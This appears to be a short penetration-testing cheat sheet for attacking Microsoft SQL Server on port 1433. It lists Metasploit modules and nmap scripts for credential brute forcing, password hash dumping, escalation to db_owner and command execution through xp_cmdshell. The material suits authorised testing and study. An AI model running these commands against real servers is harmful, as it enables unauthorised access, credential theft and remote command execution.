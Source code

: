 ### Port 1433 - MSSQL

- Version:

```
use auxiliary/scanner/mssql/mssql_ping

# Last options. Brute force.
scanner/mssql/mssql_login

# Log in to mssql
sqsh -S INSERTIPADDRESS -U sa

# Execute commands
xp_cmdshell 'date'
go
```


https://www.hackingarticles.in/mssql-peneration-testing-using-nmap/

https://www.hackingarticles.in/4-ways-to-hack-ms-sql-login-password/

## Exploitation

# MS-SQL

Locate
msf > use auxiliary/scanner/mssql/mssql_ping
nmap -sU -Pn -n -T4 --open -p1434 <targetRange>

nmap -p1433 --script ms-sql-info <targetIP>
nmap -p1433 --script ms-sql-brute --script-args mssql.instance-all,userdb=userlist.txt,passdb=wordlist.txt <targetIP>

msf > use auxiliary/scanner/mssql/mssql_login
msf > use auxiliary/admin/mssql/mssql_enum
msf > use auxiliary/scanner/mssql/mssql_hashdump
msf > use auxiliary/admin/mssql/mssql_escalate_dbowner

Post exploitation
msf > use auxiliary/admin/mssql/mssql_exec
